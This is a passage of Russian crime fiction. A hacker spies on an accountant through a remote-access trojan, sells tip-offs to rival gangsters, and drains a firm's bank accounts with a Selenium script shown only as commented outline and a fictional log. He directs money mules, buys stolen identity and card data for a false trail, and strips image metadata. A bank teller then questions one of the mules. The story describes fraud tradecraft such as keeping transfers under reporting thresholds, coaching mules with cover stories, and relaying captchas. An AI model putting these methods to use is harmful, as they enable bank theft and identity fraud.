Никита отсчитывал время не в сутках, а в циклах перезагрузки своего сознания, в количестве выпитых банок дешёвого энергетика и в бесконечной смене дня и ночи за грязным окном. Триумф от получения пароля, тот горячий, пьянящий укол власти, давно испарился, оставив после себя гулкую пустоту и липкое, тягучее ожидание. Вместо горячей волны по венам теперь сочилась холодная, вязкая усталость. Он стал цифровой тенью, прикованной к компьютеру Тамары Матвеевой.

Он изучил её жизнь до мельчайших подробностей. Активировав микрофон её старенькой веб-камеры, он слышал всё, что происходило вокруг её стола. Знал, что в 10:15 она пьёт чай с ромашкой и двумя ложками сахара, открывая в браузере сайт с рецептами. Знал, что в 13:05 она звонит дочери по IP-телефону и жалуется на начальника. Знал, что в 16:40, перед уходом домой, она пять минут раскладывает пасьянс «Паук». На рабочем столе стояли её семейные фотографии. В незакрытой вкладке почты висели обрывки личной переписки. Он стал невидимым сожителем её цифровой личности, и от этого знания его мутило. Но он продолжал смотреть. Час за часом он пролистывал скриншоты, анализировал логи сетевой активности, строил графики денежных поступлений на счета «СеверСтройИнвест». Это была отупляющая, монотонная работа, похожая на дебаггинг чужого кода в поисках одной пропущенной точки с запятой. И он её нашёл. Крупные транши от подрядчиков приходили по четвергам. Сегодня был четверг. На счетах компании сейчас лежало чуть больше пятидесяти трёх миллионов рублей.

Именно тогда, глядя на эту цифру, на это абстрактное число, способное решить все его проблемы и проблемы ещё десятка таких, как он, в нём что-то сломалось. Совесть атрофировалась давно и беззвучно. Сейчас с сухим щелчком выгорел последний предохранитель. Жадность, до этого работавшая в фоновом режиме под вывеской «помочь матери», получила права администратора и захватила всю оперативную память. Отдать всё это Козлову? Этому жирному динозавру из девяностых, который не отличает IP-адрес от индекса почтового отделения? Нет. Это было бы не просто глупо. Это было бы непрофессионально. Он, Никита, проделал всю работу. Он — мозг. А мозг забирает себе львиную долю.

Подняв старые связи на теневом форуме, который он не посещал уже больше года, он через три цепочки посредников вышел на человека Рустама Алиева. Алиев был полной противоположностью Козлова. Системный архитектор против кувалды. Он предпочитал действовать через эксплойты в чужой репутации, а не через паяльники и гаражи. Никита предложил простую сделку: он сливает Алиеву точную сумму и дату вывода денег Козловым, а Алиев платит ему скромный процент за информацию, которая позволит ему подрезать конкурента. Это был идеальный, как ему казалось, план. Он станет оператором, который стравит два враждебных процесса в системе, заставляя их атаковать друг друга и пожирать системные ресурсы. Он измотал себя до предела, спал по три часа в сутки, но никогда ещё не чувствовал себя таким живым. Игра началась. И он был уверен, что пишет её правила.

*15:00. ТЦ «Галерея», фудкорт.*

Пространство гудело. Низкочастотный, многослойный шум сотен голосов, лязга посуды и объявлений из динамиков сливался в единый фон. В воздухе висел плотный, тошнотворный коктейль из запахов пережаренного во фритюре масла, приторной корицы из булочной и едкого химического аромата моющего средства, которым уборщица только что протёрла соседний стол.

Никита сидел за самым неудобным столиком у окна, с которого открывался вид на вечно забитый машинами Лиговский проспект. Он выбрал его не случайно. Отсюда просматривались два основных прохода и эскалатор. Любой, кто шёл к нему, был бы виден заранее. Он был здесь уже двадцать две минуты. На столе перед ним стоял большой бумажный стакан с колой, в котором почти не осталось льда. Он не пил, лишь изредка брал в руку холодный, влажный картон и тут же ставил обратно. Пальцы левой руки бессознательно барабанили по липкой поверхности столешницы быструю, нервную дробь. Он заставлял себя смотреть не в одну точку, а плавно скользить взглядом по толпе, как это делают профессионалы. Выискивать аномалии. Человека, который не ест, а просто сидит. Группу мужчин, которые держатся слишком близко друг к другу. Вон тот тип в серой куртке уже третий раз проходит мимо ряда с фастфудом. Топтун? Или просто не может решить, что сожрать?

В груди что-то болезненно дёрнулось, будто лопнула перетянутая струна. Он заставил себя медленно выдохнуть. «Спокойно. Это просто нервы. В реале всё проще и тупее. Никто не следит за тобой». Но мышцы живота не разжимались. Они свелись в твёрдый, мешающий дышать ком. Здесь он был уязвим. Не было ни файрвола, ни VPN, ни анонимного прокси. Только его собственное тело, сутулое, неспортивное, одетое в неприметную тёмную толстовку. И десятки камер наблюдения на потолке, равнодушно фиксирующих каждый его жест. Это была плата за двойную игру. Болезненный компромисс. Чтобы обмануть аналогового бандита, ему пришлось самому выползти в аналоговый мир.

Стул напротив скрипнул, и за столик без разрешения опустился мужчина. Никита инстинктивно напрягся, готовый вскочить, но заставил себя остаться на месте. Контакт. Он выглядел абсолютно никак. Лет сорок, может, чуть больше. Редеющие волосы, усталое, серое лицо офисного планктона, дешёвая синяя куртка, потёртые джинсы. Он мог быть кем угодно: менеджером по продажам, инженером, мелким клерком. Идеальный камуфляж. Мужчина поставил на стол пластиковый поднос с чашкой кофе и одинокой булочкой с изюмом. Он не смотрел на Никиту. Его взгляд был устремлён на свой заказ, словно они были просто двумя незнакомцами, волею судеб оказавшимися за одним столом в переполненном зале.

Никита сглотнул. Голос сел, и первое слово вышло хриплым.

— Опаздываешь.

Мужчина не поднял головы. Он взял чашку двумя руками, словно грея их.

— Пробки, — ответил он так же тихо, почти беззвучно. Это был пароль.

Никита медленно, без резких движений, вынул из кармана джинсов связку ключей. На кольце, рядом с двумя обычными ключами, висел маленький чёрный брелок — замаскированная флешка. Он положил ключи на стол и чуть подтолкнул их по липкой поверхности к подносу незнакомца. Щелчок, с которым металл коснулся пластика, показался ему оглушительным.

— Там текстовый файл. Два числа, — проговорил Никита, глядя не на собеседника, а на пузырьки, поднимающиеся со дна его стакана. — Первое — текущий баланс. С шестью нулями. Второе — примерная дата вывода. Плюс-минус день. Разберётесь.

*«Всё. Точка невозврата. Теперь они знают. Теперь я — крыса. Если что-то пойдёт не так, меня будут искать все».* Во рту появился отчётливый привкус меди. Точно так же он себя чувствовал, когда в шестнадцать лет впервые взламывал школьный сервер, чтобы исправить оценку по физике. Та же липкая, тошнотворная смесь страха и всемогущества.

Незнакомец не ответил. Он так же медленно поставил чашку, одним плавным движением сгрёб ключи со стола и опустил их в карман куртки. Затем он взял булочку, откусил половину, прожевал, не торопясь, и запил кофе. Весь этот спектакль занял не больше минуты, но Никита успел сосчитать каждый удар собственного сердца. Их было сто двадцать семь. Наконец, мужчина допил свой кофе, скомкал салфетку, бросил её на поднос, встал и, не сказав ни слова, не обернувшись, растворился в гудящей толпе.

Никита остался сидеть. Инструкция была чёткой: «Ждёшь ровно пять минут после ухода». Он уставился на секундную стрелку дешёвых электронных часов на стене над вывеской «Крошки-Картошки». Он не просто ждал. Он считал. Триста секунд. Триста ударов сердца. Он заставлял себя дышать ровно, не оглядываться, не выдавать своего напряжения. Один… два… три… Он превратил ожидание в системный процесс, в команду, которую нужно выполнить. Только так он мог удержать подступающую панику. Когда триста секунд истекли, он медленно встал, оставив на столе почти полную колу, и пошёл прочь, к другому выходу, ведущему прямо в метро, стараясь не ускорять шаг, сливаясь с безликим потоком людей.

*15:20. Переход со станции «Площадь Восстания» на «Маяковскую».*

Сырой, холодный воздух метро ударил в лицо, как только он миновал стеклянные двери. Запах подземелья — смесь влажного бетона, креозота, остывшего металла и чего-то неуловимо электрического — наполнил лёгкие. Гудящая толпа подхватила его и потащила вглубь перехода. Здесь, под землёй, паранойя не отступала, а лишь меняла форму. Камеры на сводчатом потолке, лица полицейских у турникетов, внезапный взгляд случайного прохожего — всё казалось угрозой. Он шёл быстро, опустив голову, засунув руки в карманы толстовки, превратившись в ещё одну серую клетку в общем организме пассажиропотока. Он чувствовал себя оголённым нервом, по которому бежали хаотичные электрические разряды. Каждый шаг отдавался гулким эхом в голове.

В кармане джинсов резко, почти болезненно, завибрировал его анонимный Xiaomi. Никита вздрогнул так, что едва не выронил телефон, когда судорожно полез за ним. Сердце сделало кульбит и ударило куда-то под ключицу. «Это они. Что-то не так. Флешка не читается. Или это подстава, и меня сейчас примут». Он свернул с основного потока в короткий, почти пустой коридор, ведущий к служебным помещениям, и прислонился спиной к холодной, облицованной мрамором стене. Руки слегка дрожали, когда он разблокировал экран. Уведомление. Не сообщение в мессенджере. Иконка криптовалютного кошелька Cake Wallet.

Он сглотнул вязкую слюну и нажал на иконку. Приложение открылось не сразу, заставив его нервы натянуться до предела. Секунда ожидания натянулась до звона. И вот. Входящая транзакция. Зелёные цифры на тёмном фоне. +5․82 XMR. Он быстро прикинул в уме по текущему курсу. Пятьдесят тысяч. Чуть больше. Предоплата. Они получили файл. Они поверили. Сделка состоялась.

В этот момент что-то щёлкнуло. Напряжение, копившееся в нём не только последние полчаса, но и все шесть дней изматывающей подготовки, разом схлынуло, оставив после себя звенящую лёгкость. Он откинул голову назад, коснувшись холодного мрамора, и закрыл глаза. Воздух, который он втянул в себя, больше не казался спёртым и угрожающим. Он пах свободой и деньгами.

«Лохи», — пронеслось в его голове. Он открыл глаза и посмотрел на бегущую мимо толпу. Просто фон. Статисты. Козлов — жирный бык, застрявший в прошлом. Алиев — ряженый эстет, возомнивший себя теневым кардиналом. Оба думают, что они игроки, что управляют такими, как он. А на самом деле игра идёт по его правилам. Он сунул телефон обратно в карман. Чувство всемогущества было почти физически ощутимым, как сильный наркотик. «Я не фигура на их доске. Я — сама доска. Операционная система. А они… они просто юзеры с ограниченными правами. И я могу отозвать их доступ в любой момент». Он оттолкнулся от стены и уверенным, пружинистым шагом, которого у него не было уже много дней, пошёл в сторону эскалатора, растворяясь в толпе, но теперь уже не прячась в ней, а чувствуя себя её невидимым повелителем.

*20:00. Квартира Никиты, Купчино.*

Комната тонула в синем полумраке, прорезанном лишь прямоугольником света от 27-дюймового монитора. Единственным звуком, нарушавшим покой, было отчётливое, сухое щёлканье клавиш механической клавиатуры. В воздухе висел густой запах остывшего кофе, пыли, нагретого пластика и сладковатого пара от электронного испарителя, который Никита периодически подносил к губам. Эйфория дня схлынула, уступив место деловой, холодной сосредоточенности. Он сидел в своём цифровом командном пункте, готовясь к следующему этапу.

На экране был открыт защищённый чат в Telegram, созданный специально для этой операции. В нём было около десяти участников — анонимные профили дроповодов Козлова. Люди, которые должны были обеспечить приём и первичное обналичивание денег. Никита методично, без эмоций, печатал инструкции. Его пальцы летали над клавиатурой, словно это было продолжение его нервной системы.

*B4d_M00d: Всем приготовиться. День Х — завтра или послезавтра. Точное время сообщу за час.*

*B4d_M00d: Карты только Сбер и Тинькофф. Никаких ВТБ и Альфы. Лимиты на снятие проверяем заранее, чтобы не было сюрпризов в банкомате.*

*B4d_M00d: В день икс все на связи с 10 утра по Москве. Телефоны заряжены, симки левые. Кто пропадёт со связи — останется без доли. Вопросы?*

Чат наполнился короткими, односложными ответами.

*Gnom78: ок*

*KENT: +*

*Perevozchik: понял*

*Lucky: +++*

Это было стадо. Безликое, тупое стадо, способное выполнять лишь простейшие команды. Он презирал их, но они были необходимой частью механизма. Расходным материалом. Его взгляд скользил по ответам, пока не зацепился за одно сообщение, выбивавшееся из общего ряда.

*Сойка: Цепочка из однодневок будет длинная? Если транзакция от юрика на физика будет больше 600к, банк, ну... может заблочить по 115-ФЗ до выяснения. Может, лучше разбить на более мелкие суммы?*

Никиту это сначала кольнуло раздражением. «Умная нашлась. Ещё учить меня будет». Он уже хотел написать что-то резкое в духе «не твоё дело», но остановился. Вопрос, по сути, был абсолютно верным. Он показывал, что человек не просто слепо ждёт инструкций, а понимает механику процесса и потенциальные риски. Он на мгновение задумался. Это было нетипично для «расходников». Обычно их уровень компетенции заканчивался на умении вставить карту в банкомат.

Он кликнул на профиль отправителя. Ник — «Сойка». Аватарка — размытый женский силуэт на фоне заката. Никакой другой информации: ни телефона, ни юзернейма. Чистый, анонимный профиль. Как и должно быть. Он вернулся в чат и напечатал ответ, стараясь, чтобы он звучал максимально нейтрально и авторитетно.

*B4d_M00d: Всё учтено. Суммы будут ниже порога. Просто делайте, что сказано.*

Сойка ответила почти мгновенно.

*Сойка: Поняла. Без проблем.*

Никита пожал плечами и откинулся в кресле. Он сделал мысленную пометку. Эта «Сойка» была либо самой умной в этой банде идиотов, либо самой неосторожной, задавая лишние вопросы. В любом случае, она выделялась. «Надо же, хоть кто-то с мозгами среди этого скота», — подумал он со смесью удивления и снисхождения. Он не придал этому особого значения. Он оценивал её так же, как оценивал бы новую программу: по функционалу и эффективности. Он видел умный запрос, но не видел человека за ним. Он закрыл чат, выкинув её из головы, и переключился на следующую, более важную задачу.

*03 ноября 2023, 12:00. Офис «ТрансКарго».*

Угол Никиты в опенспейсе «ТрансКарго» был его персональным чистилищем. Из его кружки с надписью «Я не ленивый, я энергосберегающий» несло дешёвым растворимым кофе. Это место было идеальной метафорой его дневной жизни — унылой, беспросветной и никому не нужной.

Он сидел за своим столом, сгорбившись над двумя мониторами. На правом, основном, была открыта корпоративная тикет-система. «Не работает принтер в бухгалтерии». «Медленно открывается Excel». «Забыла пароль от почты». Белый шум человеческой некомпетентности, который он научился мастерски игнорировать. Из-за перегородки показалась лоснящаяся физиономия его начальника, Павла Игнатьевича.

— Сергеев, у меня опять принтер бумагу жуёт! Я уже три раза перезагружал! — проныл тот.

Никита не повернул головы. Его взгляд был прикован к левому монитору.

— Картридж выньте и вставьте обратно, — буркнул он, не отрываясь от своего дела.

— Я уже пробовал!

— Значит, попробуйте ещё раз. Сильнее, — отрезал Никита.  За перегородкой послышалось обиженное сопение, и удаляющиеся шаги.

На левом мониторе, скрытом от случайных взглядов, разворачивалась настоящая работа. Здесь была его стихия. Чёрный экран среды разработки Visual Studio Code, испещрённый разноцветными строками кода. Он писал скрипт. Элегантное, смертоносное оружие, которое должно было сработать один раз, но безупречно. Это была рутинная, медитативная работа, требовавшая полной концентрации. Он использовал Python и библиотеку selenium, которая позволяла имитировать действия пользователя в браузере. По сути, он создавал робота, который войдёт в веб-интерфейс банк-клиента и за считанные секунды создаст и подпишет десятки платёжных поручений.

Он методично прописывал каждую строчку, обильно снабжая код комментариями, словно оставляя записки самому себе из прошлого. Пальцы на мгновение застыли над клавиатурой — он забыл название переменной, которую сам же объявил пять минут назад. Секундный провал в памяти. Он тряхнул головой, отгоняя туман, и продолжил.

*# === Блок 1: Авторизация ===*

*# Используем логин 'T․Matveeva' и пароль из файла jackpot․txt*

*# Ставим задержку в 3 секунды после ввода, чтобы имитировать человека*

*# === Блок 2: Парсинг CSV ===*

*# Открываем файл accounts․csv со списком счетов дропов*

*# Читаем построчно, создаем массив платежей*

*# === Блок 3: Формирование платёжек ===*

*# Запускаем цикл. Для каждой строки из CSV находим нужные поля на странице*

*# Вставляем БИК, номер счета, ФИО получателя, сумму*

*# Назначение платежа: "Оплата по договору №..." Номер генерируется случайно*

Работа шла гладко, пока он не дошёл до этапа подтверждения. Капча. Чёртовы искажённые буквы и цифры, которые должен был распознать человек. Он выругался себе под нос. Использовать платные сервисы автоматического распознавания было рискованно — это оставляло лишние следы и требовало денег. Нет. Решение должно быть проще. Грязнее.

Он несколько минут смотрел на экран, постукивая пальцем по столу. Идея пришла внезапно, простая и эффективная. Он добавил в скрипт несколько новых строк. Теперь, дойдя до капчи, программа не пыталась её распознать. Она делала скриншот нужной области экрана, сохраняла его как captcha․jpg, отправляла этот файл ему в Telegram через бота и вставала на паузу, ожидая ввода. Он сам, в реальном времени, посмотрит на картинку, введёт символы в консоль, и скрипт продолжит свою работу. «Дёшево и сердито. Не идеально, но надёжно, как топор».

К концу рабочего дня скрипт был готов. Он запустил его на виртуальной машине, в эмуляторе, подставив фейковые данные. Робот ожил. На экране сами собой открывались окна, курсор летал по полям, вбивая реквизиты, нажимал кнопки. Всё работало. Безупречно. Он почувствовал укол профессиональной гордости. Он смотрел на своё творение. Это было больше, чем воровство. Это было чистое, элегантное решение. Искусство. Он сохранил файл money_heist․py на зашифрованную флешку, которую всегда носил с собой. Теперь вся операция по хищению почти пятидесяти миллионов рублей была сведена к одному двойному клику и одному нажатию клавиши Enter.

*18:30. Квартира Никиты.*

Вернувшись домой, Никита не отдыхал. Он перешёл к финальной части подготовки — созданию дымовой завесы. Он всегда работал по принципу: если не можешь стать невидимым, стань кем-то другим. Нужно было подкинуть будущим преследователям кость, на которую они набросятся, пока он будет растворяться в тени. Он чувствовал лёгкую тошноту и головокружение — результат почти двух суток без нормального сна, на диете из энергетиков и никотина. Но мозг работал ясно и холодно, как отлаженный механизм.

Он запустил виртуальную машину с операционной системой Whonix, специально разработанной для обеспечения максимальной анонимности. Весь её трафик автоматически заворачивался в сеть Tor. Поверх этого он вручную поднял цепочку из трёх VPN-серверов в разных странах: Швеция, Панама, Малайзия. Только после этого он открыл браузер.

Первым делом он зашёл на проверенный годами даркнет-форум, известный в узких кругах как «Пробивной». В разделе «Документы и карты» он нашёл надёжного продавца. Процесс покупки был отработан до автоматизма. Он перевёл на указанный кошелёк небольшую сумму в Monero, и через пять минут в личные сообщения ему пришёл архив. Внутри был полный комплект для создания виртуальной личности: качественный скан паспорта на имя некоего Самойлова Игоря Олеговича, тридцати пяти лет, уроженца Саратова, и данные ворованной кредитной карты американского банка с балансом в несколько тысяч долларов.

Он методично, буква за буквой, вбивал данные «Самойлова» в форму покупки билета на сайте крупной российской авиакомпании. Имя, фамилия, номер паспорта. Затем данные кредитки. Руки слегка дрожали, и он дважды ввёл неправильный CVC-код, мысленно проклиная собственное тело. Рейс: Санкт-Петербург (Пулково) — Стамбул (Новый аэропорт). Дата вылета — завтрашнее утро. Он нажал кнопку «Оплатить». На экране выскочило красное уведомление: «Платёж отклонён банком-эмитентом». По венам пронёсся короткий ледяной импульс. «Карта сдохла. Продавец кинул». Он заставил себя выдохнуть и нажал кнопку ещё раз. Он смотрел на вращающийся значок загрузки, и мир сузился до этого пиксельного круга. Казалось, собственная кровь стучит в ушах в такт его вращению. Платёж прошёл.

На почту, зарегистрированную на левые данные, пришёл электронный билет. Он не стал его скачивать. Он сделал скриншот маршрутной квитанции, тут же открыл его в простейшем редакторе и сохранил заново, чтобы убить исходные цифровые отпечатки. Затем, открыв командную строку, он ввёл команду: exiftool -all= screenshot_ticket․jpg. Программа за секунду стёрла из файла все метаданные: информацию о времени создания, программе, в которой был сделан скриншот, разрешении экрана. Теперь это был просто набор пикселей, без истории. Он вспомнил, как на заре своей «карьеры» едва не попался именно на этом — отправил заказчику скриншот с данными, из которых можно было вычислить модель его монитора и операционную систему. Урок был усвоен навсегда.

Он закрыл браузер, запустил утилиту для полной очистки кэша, логов и временных файлов, а затем выключил виртуальную машину. Всё. Ложный след был создан. Он знал, как работает система. Когда деньги исчезнут, и начнётся расследование, силовики рано или поздно начнут отрабатывать его окружение и цифровые следы. Они найдут этот билет. Они потратят драгоценные часы, а может, и дни, пробивая «Самойлова», отправляя запросы в аэропорт, проверяя записи с камер. А он в это время будет уже далеко.

Он откинулся на спинку скрипучего кресла и мысленно прогнал всю цепочку ещё раз. Вход. Вывод. Зачистка. Ложный след. Каждый узел системы был под его контролем. Каждый ответ был просчитан. Он чувствовал огромное, всепоглощающее удовлетворение.

Он предусмотрел всё.

### Глава 4

Глава 4

Никита почти перестал спать. Сон стал роскошью, опасным провалом в бездействие. Он дремал в кресле урывками по часу-полтора, просыпаясь от малейшего скрипа за окном или гула лифта в подъезде, и каждый раз сердце заходилось в бешеном, рваном ритме, пока он не убеждался, что за ним никто не пришёл.

Его квартира в Купчино перестала быть домом. Она превратилась в командный бункер, в подводную лодку, залёгшую на дно в ожидании приказа. Шторы были постоянно задёрнуты, создавая искусственную ночь, в которой единственным источником света был прямоугольник монитора. На полу возле стола выросла уродливая пирамида из пустых банок от энергетиков «Monster» и «Adrenaline Rush». Они были его топливом. Он похудел, под глазами залегли тёмные, почти фиолетовые круги, а взгляд стал лихорадочным, зрачки — вечно расширенными от химии и недостатка сна. Чувство всемогущества, которое он испытал после сделки с Алиевым, мутировало. Оно стало хрупким и колючим, как дешёвая китайская микросхема под пальцами. Это был уже не азарт творца, а хищное, голодное напряжение игрока, поставившего на кон всё, что у него было, и даже больше.

Он отточил свой скрипт money_heist․py до безупречности. Каждая строка была выверена, каждая функция — избыточно проверена. Десятки раз он прогонял его на виртуальной машине, симулируя каждый возможный сбой, каждую ошибку сети, каждую непредвиденную реакцию банковского сервера. Он добавил модули логирования, обфусцировал код, встроил механизм самоуничтожения. Эта кропотливая, почти медитативная работа была единственным, что спасало его от безумия ожидания. В эти моменты он снова чувствовал себя гением, демиургом, повелевающим потоками нулей и единиц. Он убедил себя, что его план безупречен, а все остальные люди в этой схеме — Козлов, Алиев, дропы, бухгалтерша — лишь предсказуемые переменные в его выверенном уравнении. К утру пятнадцатого ноября он сам превратился в оголённый провод под напряжением. Готовый либо издать идеальную, чистую ноту триумфа, либо с оглушительным треском лопнуть.

*15 ноября 2023 года. 14:00.*

День «Икс» начался без пафоса. Он не отличался от предыдущих одиннадцати. Тот же серый свет, пробивавшийся сквозь щели в шторах, тот же гул компьютера, тот же привкус вчерашнего энергетика во рту. Никита выполнил свой ритуал, ставший за эти дни почти религиозным. Подошёл к окну, осторожно отодвинул край шторы и осмотрел двор. Старая «девятка» на том же месте, мамаши с колясками, пенсионер, выгуливающий мопса. Ничего подозрительного. Но сама необходимость этой проверки уже была симптомом болезни.

Он задёрнул шторы, погрузив комнату в привычный полумрак. Выключил звук на личном телефоне и засунул его под подушку на диване. Полное радиомолчание. Надел старые, потёртые наушники Sennheiser, из которых полился холодный, отстранённый эмбиент Autechre. Музыка без эмоций, идеальный саундтрек для работы. На столе уже стояла новая, только что открытая банка «Монстра» и свежая пачка «Winston».

Спина заныла, когда он опустился в кресло. Размяв затёкшую шею, он уставился на монитор, разделённый на две части: слева — терминал с готовой командой, справа — окно VNC-клиента, транслирующее рабочий стол Тамары Игоревны Матвеевой. Она была на месте. Водила мышкой по таблице в Excel, что-то сверяя. Живая, ничего не подозревающая точка входа. Никита проверил соединение со своим C2-сервером, спрятанным за цепочкой прокси в Нидерландах. Пинг… Пакеты пошли. Секундная задержка, от которой внутри всё похолодело. Нет, всё в норме. Канал чистый. Всё было готово.

Он занёс пальцы над клавиатурой. И замер. Это был тот самый момент, точка сингулярности, в которой сходились недели подготовки, бессонные ночи, риск, жадность и страх. В голове роем пронеслись вопросы, последние баги его собственной операционной системы. А что, если она именно сейчас заблокирует компьютер и уйдёт на обед? А что, если антивирус внезапно обновил базы и спалит его RAT? Что, если банковский клиент сегодня утром обновился и изменил интерфейс? Он с силой сжал челюсти, отгоняя панику. Хватит. Он всё проверил. Десятки раз. Его план идеален. Это его момент.

Пальцы, чуть подрагивая, легли на нужные клавиши. Он медленно, с почти садистским удовольствием, набрал команду, которую знал наизусть: python3 money_heist․py --target=SeverStroy --amount=max.

И нажал Enter.

Щелчок клавиши в гулкой, изолированной тишине его бункера прозвучал оглушительно, как выстрел стартового пистолета. Капля пота, холодная и липкая, медленно потекла по виску. Желудок скрутило в тугой, ледяной узел, к горлу подкатила тошнота. Всё. Пошло. Точка невозврата. Сердце пропустило удар, а потом заработало с новой, бешеной силой, отдаваясь глухими толчками в висках. Точно так же он себя чувствовал, когда в шестнадцать лет, сидя в родительской квартире, впервые взламывал школьный сервер, чтобы исправить оценку по физике. Та же липкая, тошнотворная смесь животного страха и пьянящего чувства власти. Только тогда на кону стоял вызов родителей к директору. А сейчас — его жизнь.

На экране не было голливудских зелёных символов, бегущих по чёрному фону. На экране появился сухой, деловой лог его собственного скрипта. Каждая строчка была как отчёт хирурга во время сложной операции.

*[14:02:11] Инициализация... Цель: SeverStroy. Режим: MAX_AMOUNT.*

*[14:02:15] Подключение к C2... Успешно.*

*[14:02:20] Инъекция в процесс bank_client․exe... PID 7432.*

*[14:02:48] Перехват сессии... Токен E-Token PRO активен.*

*[14:03:05] Авторизация с использованием перехваченных данных...*

*[14:03:11] AUTH SUCCESSFUL. Доступ к счетам получен.*

*[14:03:45] Начало формирования транзакций. Обнаружено счетов: 4. Общая сумма: 47,118,300․00 RUB.*

*[14:03:45] Начало формирования транзакций. Обнаружено счетов: 4. Общая сумма: 47,118,300․00 RUB. План: 95 транзакций.*

*[14:04:01] Транзакция 1/95... Сумма 495,982․10 RUB -&gt; Счет 40817...ХХХХХХ1092... Подпись... ОТПРАВЛЕНО.*

*[14:04:15] Транзакция 2/95... Сумма 512,000․00 RUB -&gt; Счет 40817...ХХХХХХ3314... Подпись... ОТПРАВЛЕНО.*

*[14:04:28] Транзакция 3/95... Сумма 489,500․00 RUB -&gt; Счет 40817...ХХХХХХ5201... Подпись... ОТПРАВЛЕНО.*

Строки гипнотизировали. Дыхание перехватило. Цифры, которые для кого-то означали зарплаты, контракты, материалы, целую жизнь чужого бизнеса, на его глазах превращались в безличные пакеты данных и перетекали по его команде на счета подставных фирм и дропов. Это был не взрыв, не налёт. Это была тихая, методичная, почти стерильная работа вируса в организме. На рабочем столе Тамары Игоревны сам по себе, как одержимый, дёргался курсор мыши, открывая и закрывая окна платёжных поручений. Это его скрипт имитировал действия человека, чтобы обмануть систему фрод-мониторинга. Для неё, если бы она сейчас смотрела на экран, всё выглядело бы как чудовищный сбой системы. Но она не смотрела. Она продолжала работать со своей таблицей.

*[14:22:58] Транзакция 95/95 завершена. TOTAL: 47,118,300․00 RUB.*

*[14:23:02] TASK COMPLETE. Зачистка следов... Удаление логов bank_client․exe...*

*[14:23:05] Отключение от C2... Сессия завершена.*

Никита шумно выдохнул воздух, который, казалось, держал в лёгких все эти двадцать минут. Он откинулся на спинку кресла. Тело обмякло, по рукам и ногам прошла мелкая дрожь.

Получилось.

Он открыл анонимный Telegram-клиент, нашёл чат дроповодов, который молчал последние три дня, и отправил одно-единственное слово: «Работаем».

Он чувствовал себя богом.

*14:30.*

Отделение банка «ВТБ» на проспекте Ветеранов было похоже на аквариум, наполненный мутной водой человеческой усталости и раздражения. Воздух был густым и спёртым, пахло дешёвым освежителем с ароматом «морского бриза», который отчаянно пытался перебить запахи мокрой одежды, пота и чего-то неуловимо казённого — смеси старой бумаги и горячего пластика от оргтехники. Для Паши, девятнадцатилетнего студента-второкурсника, этот воздух был ядовитым. Он стоял в электронной очереди уже пятнадцать минут и за это время успел пропитаться им насквозь.

Звуки сливались в единый тревожный фон. Мерное гудение кондиционера. Раздражающий писк, с которым табло высвечивало новый номер. Сухой, стрекочущий звук матричного принтера за стойкой, похожий на трещотку. Каждый этот звук впивался в его натянутые нервы. Ему казалось, что все в этом зале — и сонная женщина с ребёнком, и хмурый мужчина в спецовке, и даже охранник у входа — смотрят именно на него. Знают, зачем он здесь. Видят его насквозь.

Охранник. Рослый мужик лет сорока пяти, с лицом, будто вытесанным из серого гранита, и пустыми, скучающими глазами. Он стоял у входа, заложив руки за спину, и его неподвижность была страшнее любой угрозы. Паше казалось, что он несоразмерно большой, что его форма налита свинцом, а кобура на поясе — это не просто кусок кожи, а обещание боли.

В кармане джинсов вибрировал дешёвый кнопочный телефон, который ему выдали утром вместе с новой, пахнущей пластиком банковской картой. Паша достал его. На экране светилось сообщение от координатора с ником «Бригадир»: «Паштет, ты на месте? Как обстановка?» Паша судорожно набрал ответ: «Да. Жду». Он снова и снова прокручивал в голове инструкцию, которую ему зачитывали вчера в прокуренной «девятке»: «Заходишь спокойно. Никакой паники. Ты просто снимаешь свои деньги. На вопрос ‘зачем’ отвечаешь — ‘первый взнос по ипотеке, нашли хороший вариант’. Говори уверенно. Ты имеешь право. Это твои бабки. Снимешь, выйдешь, отойдёшь за угол. Позвонишь. Всё».

Слова казались чужими, глупыми, выученными из плохого сериала. Ипотека. Какая, к чёрту, ипотека? Он жил с матерью в хрущёвке и перебивался с доширака на стипендию. За эту «работу» ему обещали пятьдесят тысяч. Пятьдесят тысяч. Для него это были огромные деньги. Можно было купить новый телефон и отдать матери долг за коммуналку. Ради этого стоило потерпеть. Но страх был липким и холодным, он заползал под куртку, сковывал дыхание.

*П-152.*

Его номер загорелся на табло над окном №3. Ноги стали ватными. Он сделал шаг, потом другой. Пол казался зыбким. Он подошёл к стойке, отделённый от операционистки толстым, исцарапанным стеклом. За ним сидела женщина лет пятидесяти с усталым, одутловатым лицом, на котором была нарисована маска профессиональной вежливости. Её ярко-красный маникюр хищно блестел под лампой дневного света.

— Здравствуйте, — просипел Паша. Голос его не слушался.

Он протянул в лоток паспорт и новенькую, ни разу не использованную карту. Паспорт выскользнул из потных пальцев, шлёпнулся о пластик лотка. Его рука заметно дрожала. Женщина взяла документы, её взгляд скользнул по его лицу. За двадцать лет работы она научилась видеть таких за версту. Бледная кожа, бегающие глаза, капли пота на лбу. Дроп. Очередной дурачок, которого взяли в оборот. Она не была злой. Она просто выполняла свою работу и следовала инструкциям. Она бросила на него ещё один быстрый, оценивающий взгляд и вставила карту в терминал.

*14:45.*

Паша смотрел, как пальцы с красными ногтями порхают над клавиатурой. Время замедлилось, растянулось, как расплавленный пластик. Он слышал стук своего сердца в ушах, громкий и гулкий. Он видел, как на её мониторе мелькают цифры. Сумма, которую ему нужно было снять, — четыреста девяносто пять тысяч. Он никогда в жизни не держал в руках таких денег. Мысль об этом вызывала одновременно головокружение и тошноту.

Кассирша подняла на него взгляд. Её лицо не выражало ничего, кроме лёгкой скуки. И именно эта обыденность была самой страшной.

— Павел Игоревич, — её голос был ровным, почти монотонным, но для Паши он прозвучал как вой сирены. — Уточните, пожалуйста, цель снятия такой суммы. Это стандартный вопрос по финмониторингу.

Вопрос. Тот самый вопрос, к которому его готовили. Он открыл рот, чтобы выпалить заученную фразу про ипотеку, но из горла вырвалось лишь невнятное мычание. В голове — белый шум, пустота. Легенда, казавшаяся такой простой и надёжной, рассыпалась в пыль под этим спокойным, усталым взглядом.

— Я... это... машину хочу купить, — пролепетал он, чувствуя, как краска заливает щёки. — У друга. Подержанную. Он срочно продаёт, вот...

Ложь была жалкой, очевидной. Какая машина за полмиллиона, если он выглядит как студент, у которого нет денег на обед? Он сам это понимал. И она это понимала.

Женщина медленно кивнула, делая вид, что принимает его неуклюжее объяснение.

— Минуточку, — сказала она и отвернулась к своему компьютеру.

